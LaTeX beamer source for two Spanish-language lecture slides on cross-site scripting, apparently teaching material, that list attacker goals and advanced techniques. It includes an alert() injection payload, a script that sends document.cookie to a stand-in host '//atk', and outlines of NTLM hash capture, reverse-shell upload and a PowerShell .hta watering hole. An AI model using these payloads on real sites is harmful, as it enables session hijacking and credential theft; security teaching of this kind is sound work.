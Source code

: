 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{XSS --- impacto y entrega}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Qué puede hacer el atacante
  \item Robar cookies de sesión $\cdot$ phishing (login falso) $\cdot$ defacement $\cdot$
  \item redirecciones forzadas $\cdot$ keylogging $\cdot$ acciones como el usuario.
  \item Encadenar HTML tras el JS
  \item paloma\textless{}script\textgreater{}alert('hacked')\textless{}/script\textgreater{}\textless{}h1\textgreater{}¿Qué tal?\textless{}/h1\textgreater{}
  \item Vías de inyección menos obvias
  \item Cabeceras HTTP (User-Agent) si se reflejan en una página.
  \item Phishing con XSS almacenado
  \item El XSS persistente inserta un login FALSO que envía las
  \item credenciales al atacante.
  \item PortSwigger XSS $\cdot$ OWASP
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XSS --- ataques avanzados}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Session hijacking (robo de cookies)
  \item \textless{}script\textgreater{}new Image().src='//atk/?c='+document.cookie\textless{}/script\textgreater{}
  \item Reinyectar la cookie (cookie manager) o recolector en PHP.
  \item Captura de hashes NTLM
  \item Inyectar un recurso UNC/pop-up $\rightarrow$ responder captura el hash
  \item NTLM $\rightarrow$ crackear con hashcat / john.
  \item RCE vía XSS
  \item Subir una php-reverse-shell y apuntar el XSS a ese recurso; o
  \item watering hole: XSS persistente sirve un .hta con PowerShell.
  \item BeEF $\cdot$ github.com/R0B1NL1N/WebHacking101
  \end{itemize}
\end{frame}
\end{document}
